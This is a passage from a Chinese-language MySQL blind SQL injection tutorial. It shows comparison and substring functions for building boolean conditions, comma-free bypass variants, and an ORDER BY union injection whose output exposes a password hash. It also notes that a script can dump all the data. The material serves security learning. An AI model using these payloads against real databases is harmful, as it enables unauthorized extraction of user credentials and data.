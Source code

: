 **这样通过id指定的话改一下payload直接上脚本把数据全脱了。**

**另外如果想跨表查询的话**

```mysql
mysql> select a.password<'z' from users a limit 1,1;
+----------------+
| a.password<'z' |
+----------------+
|              1 |
+----------------+
```

### 1.4.2 构造逻辑判断

**逻辑判断基本就那些函数：**

```mysql
left(user(),1)>'r'  
right(user(),1)>'r'  
substr(user(),1,1)='r'  
mid(user(),1,1)='r' 
greatest("sed",database())= "sed" //返回最大值再与字符串比较
select least("sea",database())="sea"; //返回最小值再与字符串比较
    
//不使用逗号 
user() regexp '^[a-z]'
user() like 'root%' //注意_/%通配符，建议写脚本的时候时候写到字符集最后面
POSITION('root' in user())
mid(user() from 1 for 1)='r'
mid(user() from 1)='r'

```

**ASCII()、ORD()和CHAR()函数一般用做辅助。**

### 1.4.3 利用order by盲注

```mysql
mysql> select * from admin where username='' or 1 union select 1,2,'5' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | 2        | 5                                |
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
+----+----------+----------------------------------+
2 rows in set (0.00 sec)
    
mysql> select * from admin where username='' or 1 union select 1,2,'6' order by 3;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 51b7a76d51e70b419f60d3473fb6f900 |
|  1 | 2        | 6                                |
+----+----------+----------------------------------+
2 rows in set (0.01 sec)
```
